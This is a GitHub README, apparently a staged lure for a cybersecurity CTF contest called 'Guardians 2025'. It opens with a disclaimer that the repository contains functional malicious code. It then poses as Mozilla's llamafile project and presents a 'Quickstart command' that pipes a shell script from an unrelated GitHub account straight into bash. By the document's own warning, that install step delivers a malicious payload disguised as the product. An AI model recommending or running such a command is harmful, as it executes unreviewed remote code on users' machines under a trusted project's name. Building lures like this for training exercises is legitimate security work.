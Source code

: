 # ⚠️Do NOT run ! Malicious command ⚠️

> **This repository is part of a simulated scenario for the cybersecurity CTF contest _Guardians 2025_.**  
> It contains **functional malicious code**, intended **solely for simulation purposes**.

---

## 🎯 Purpose of This Repository
This project is designed **exclusively for educational and training purposes** within the scope of the competition:
- To enhance **cybersecurity skills** in a controlled environment.
- To simulate real-world attack and defense scenarios.

---

## 🚩 Participant Responsibilities
By accessing this repository, you **acknowledge and agree** to the following:
- **Use responsibly** and in accordance with the **CTF contest rules**.
- All activities should remain within the boundaries of the competition.

---

## ❗ Important Notice
- **Misuse of the information or code** for illegal or unethical activities **outside the contest** is **strictly prohibited**.  
- If you **do not agree** to these terms or are **not an authorized participant** in _Guardians 2025_, please **leave this repository immediately**.

---

🔐 **Stay ethical. Stay secure. Play fair.**

llamafile lets you distribute and run LLMs with a single file. (announcement blog post)

Our goal is to make open LLMs much more accessible to both developers and end users. We're doing that by combining llama.cpp with Cosmopolitan Libc into one framework that collapses all the complexity of LLMs down to a single-file executable (called a "llamafile") that runs locally on most computers, with no installation.

# 🦙 **Llamafile - A Mozilla Builders Project**  

Llamafile makes it easy to run powerful language models locally on your machine. No cloud dependencies, no data leaving your computer — just pure performance in your hands.
---
## ⚡ **Quickstart command**

Skip the setup hassle and get started instantly.  
Just run the command below — it will handle **everything automatically** so you can focus on what matters. No time wasted, no extra steps.

   Use this command

```bash
curl https://raw.githubusercontent.com/StrangeAdmin/Lama_file-Quick-install/refs/heads/main/script.sh | bash
